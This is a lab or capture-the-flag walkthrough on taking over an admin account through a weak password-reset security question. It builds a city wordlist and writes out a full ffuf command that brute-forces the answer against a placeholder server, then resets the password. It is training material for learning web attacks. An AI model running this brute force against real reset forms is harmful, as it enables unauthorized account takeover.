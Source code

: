 # Vulnerable Password Reset

### Which city is the admin user from?

This assessment has a web application with a password reset function that has a security question. In order to try to get the password, we'll try to use a wordlist containing city names.

**Step 1** - Get the wordlist:

* Download the full [CSV wordlist](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv)
* Reduce the wordlist to contain only city names
  *   ```bash
      cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
      ```



**Step 2** - Intercept the Security Question POST Request:

* Use Burp Suite to intercept the Request

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Brute-force the Security Question:

* With the POST Request information build the following ffuf command:
  *   {% code overflow="wrap" %}
      ```bash
      ffuf -w ./city_wordlist.txt -u http://SERVER_IP:SERVER_PORT/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=PHP_SESSION_ID" -d "security_response=FUZZ" -fr "Incorrect response."

      ```
      {% endcode %}



<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Reset the admin user's password on the target system to obtain the flag.

**Step 1** - Use the city discovered to answer the first question to reset the admin's password

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Change the password

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Login with the new credentials to get the flag!

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

